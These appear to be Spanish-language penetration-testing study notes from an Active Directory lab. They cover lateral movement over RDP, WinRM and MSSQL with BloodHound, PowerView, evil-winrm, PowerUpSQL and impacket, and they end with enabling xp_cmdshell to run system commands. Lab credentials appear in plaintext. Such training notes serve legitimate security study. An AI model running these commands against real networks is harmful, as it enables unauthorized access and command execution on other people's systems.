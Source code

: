 #rdp #mssql #winrm
Nos planteamos este escenario cuando somos un usuario sin privilegios administrativos locales o de dominio. Aún podemos tratar de movernos entre distintos hosts. Bloodhound nos permite comprobar escenarios del tipo 
- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)
## RDP
### Enumerando usuarios y equipos del grupo RDesktop 
#### Comprobando usuarios que tienen acceso vía rdp a un equipo 
- Con Powershell `Get-NetLocalGroupMember`
	```powershell
	Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
	```
- Con `bloodound` 
	- Seleccionamos el nodo
	- Buscamos inbound execution rights (derechos de ejecución entrante)
	- Opciones RDP
#### Buscando equipos que permitan RDP 
- PowerView (No comprobado)
	```powershell
	$computers = Get-NetComputer -FullData | Select-Object dnshostname 
	foreach ($computer in $computers) { Get-NetLocalGroupMember -ComputerName $computer.dnshostname -GroupName "Remote Desktop Users" }
	```
- Bloodhound
	```cypher
	match p=(g:Group)-[:CanRDP]->(c:Computer)  where g.name STARTS WITH 'DOMAIN USERS'  AND c.operatingsystem CONTAINS 'Server'  return p
	```
## WinRM
### Enumerando usuarios del grupo Remote Managment
- **Con powerview** `Get-NetLocalGroupMember`
    ```powershell
     Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
    ```
    
- Con query personalizada en bloodhound
    ```
    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p
    ```
### Estableciendo sesión
- Windows
	```powershell
		$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -ForcePS $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password) Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
	```
- Linux
	```bash
	evil-winrm -i $target -u <username>
	```

### Estableciendo sesión - problema del double Hop
Dado que en WinRM obteenmos un ticket TGS, no podemos ejecutar algunos comandos que involucran comunicarse con otros hosts. Ejemplo:
```powershell
#Comando desde la máquina atacante para establecer powershell remoting (OK)
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm
# El comando a continuación ejecuta una solicitud LDAP o Kerberos a DC01 (Falla)
Get-DomainUser -SPN
```
#### Solución 1: **PSCredential Object**

Una posible solución es envíar nuevamente nuestras credenciales
```powershell
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\\backupadm', $SecPassword)
```

Ahora, si intentamos ejecutar comandos que involucren servicios con autenticación delegada e incluimos la flag `-credential $Cred` , podremos acceder a estos servicios:
```powershell
get-domainuser -spn -credential $Cred | select samaccountname
```

#### Solución 2: **Register PSSession Configuration**

Otra solución es que en la sesión de autenticación se pasen, además de las credenciales de `backupadm` para que siempre se ejecuten los comandos con las credenciales de este usuario.
```powershell
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\\backupadm
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\\backupadm -ConfigurationName  backupadmsess
```

## SQL Server
### Enumerando usuarios con derechos de administrador en SQL
- Query personalizada de Bloodhound
	```cypher
	MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
	```
### PowerUpSQL
- [Chuleta interesante](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
- Enumerando instancias de MSSQL    
    ```powershell
    cd .\\PowerUpSQL\\
    Import-Module .\\PowerUpSQL.ps1
    Get-SQLInstanceDomain
    ```
- Autenticando sobre una instancia MSSQL (Windows)
    ```powershell
    Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\\damundsen" -password "SQL1234!" -query 'Select @@version'
    ```
- Autenticando sobre una instancia MSSQL - Linux
    ```bash
    mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation
    ```
- Una vez autenticados
	- Seleccionando  **enable_xp_cmdshell**
	    ```bash
	    SQL> enable_xp_cmdshell
	    ```

	- Ejecutando comandos a nivel de sistema
	    ```bash
	    xp_cmdshell whoami /priv
	    ```